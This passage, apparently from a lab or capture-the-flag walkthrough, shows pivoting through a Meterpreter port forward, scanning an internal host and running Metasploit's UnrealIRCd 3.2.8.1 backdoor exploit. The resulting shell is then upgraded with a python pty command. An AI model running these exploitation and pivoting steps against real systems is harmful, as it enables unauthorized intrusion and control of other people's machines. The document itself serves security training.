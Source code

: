 Command:
`meterpreter> portfwd add -l 1234 -p 6667 -r 192.143.193.3`

Here's a breakdown of the above command:
`portfwd` is the command we are issuing.
`add` tells the module to add a new forwarder.
`-l 1234` indicates a `l`ocal port of `1234`.
`-p 6667` is the target port of `6667`.
`-r 192.143.193.3` sets the `r`emote target.

With this setup we can now `nmap` the port on our local machine and get our remote results. Be sure to `background` the `Meterpreter` session first!

Command:
`msf5> nmap -sC -p 1234 localhost`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-40.png" >}}

Now we see that we have an UnrealIRCd service running. We can now `search` for unreal inside Metasploit to see what modules are available to us.

Command:
`msf5> search unreal`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-41.png" >}}

Well, it looks like we only have one options. Since two are targeted at the game, Unreal Tournament. 

Command:
`msf5> use exploit/unix/irc/unreal_ircd_3281_backdoor` or `msf5> use 2`

We check our module `options`. We want to set our `rhost` and our `payload`. Using the default payload associated with the exploit will not work on our target. Which we found out via trial and error.

Command:
`msf5> show payloads`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-42.png" >}}

We will just go down the line, starting with payload 1. We set this similar to previous commands.

Command:
`msf5> set payload 1`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-43.png" >}}

We then `run` the exploit.

{{< figure src="__GHOST_URL__/content/images/2020/01/target-2_root.gif" >}}

We now have a shell on the second target! We can't actually change our directories until we upgrade our shell. There are [many ways](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#tldrcheatsheet) to do this. In this case (and most) I use `python`.

Command:
`python -c 'import pty;pty.spawn("/bin/bash")'`

This gives us a better shell experience.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-44.png" >}}
